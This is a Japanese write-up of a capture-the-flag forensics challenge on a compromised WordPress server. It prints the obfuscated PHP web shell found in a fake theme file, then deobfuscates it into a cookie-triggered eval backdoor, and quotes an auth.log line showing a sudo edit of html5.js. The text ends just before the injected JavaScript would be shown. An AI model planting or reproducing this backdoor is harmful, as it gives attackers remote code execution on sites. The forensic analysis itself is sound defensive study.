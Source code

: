 アクセスログから/wp-content/uploads/wysija/themes/weblizer/template.phpというのにアクセスしていることがわかったので、そのファイルを見てみます。中身は次のようなPHPファイルです。

```
<?php
$hije = str_replace("ey","","seyteyrey_reyeeypleyaeyceye");
$andp="JsqGMsq9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYSsqk9PSdoYScgJisqYgsqJsqGMoJ";
$rhhm="nsqKSwgam9pbihhcnJheV9zbGljZSgkYSwksqYygkYSksqtMykpKSksqpO2VjaG8sqgJsqzwvJy4kay4nPic7fQ==";
$pvqw="GEpPjMpeyRrPSdja2l0JztlY2hvICc8Jy4kaysq4nPicsq7ZXZhbChsqiYXNlNjRfZGVjb2RlKHByZsqWdfcmVw";
$wfrm="bGFjZShhcnsqJheSsqgsqnsqL1teXHcsq9XHNdLycsJy9ccy8nKSwgYsqXJyYXksqoJycsJyssq";
$vyoh = $hije("n", "", "nbnansne64n_ndnecode");
$bpzy = $hije("z","","zczreaztzez_zfzuznzcztzizon");
$xhju = $bpzy('', $vyoh($hije("sq", "", $andp.$pvqw.$wfrm.$rhhm))); $xhju();
?>
```

`$hije`が`str_replace`、`$vyoh`が`base64_decode`、`$bpzy`が`create_function`関数です。このとき初めて知ったんですが、PHPでは文字列変数に対して`$hoge()`みたいに`()`を付けて使うと、その変数に入っている名前の関数を呼び出すという機能があります。びっくり。

それはともかくとして、このコードは

1. `$andp`、`$pvqw`、`$wfrm`、`$rhhm`を結合する
2. その中の'sq'を取り除く
3. その文字列をBase64デコードする
4. その文字列を関数化する
5. それを実行する

というコードです。`create_function`で関数化されたコードは次のコードです（実際の出力を整形しています）

```
$c='count';
$a=$_COOKIE;
if (reset($a) == 'ha' && $c($a) > 3) {
  $k='ckit';
  echo '<'.$k.'>';
  eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'), array('','+'), join(array_slice($a,$c($a)-3)))));
  echo '</'.$k.'>';
}
```

Cookieが所定の条件を満たすとき、その中に入っているBase64文字列をevalする、というコードのようです。どう見てもバックドアです。本当にありがとうございました。	

しかし、ログに記録されてない上にパケットキャプチャもないので、Cookieの中身はわかりません。つまりどんなコードが実行されたのかが全く不明です。データベースの中に何かしら残っていないか探してみましたが見つかりません。ここで一旦手詰まりとなってしまいました。

そこで隣に座ってた某氏が'/var/log/auth.log'を見ていて次の箇所を指摘しました。

```
Sep 17 19:20:09 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/usr/bin/vi /var/www/html/wp-content/themes/twentythirteen/js/html5.js
```

ご覧の通り、sudoでviが実行されています。察し。……ていうかubuntuユーザーでログインされてsudoまでされてるんですがそれは……。

それはともかく/wp-content/themes/twentythirteen/js/html5.jsを見てみます。先頭のコメントにHTML5 Shivとあります。バージョンは3.7.0。[HTML5Shivのリポジトリ](https://github.com/aFarkas/html5shiv)から3.7.0のファイルをダウンロードし、このファイルとの差異を探すと、末尾に次のコードが追加されていました。
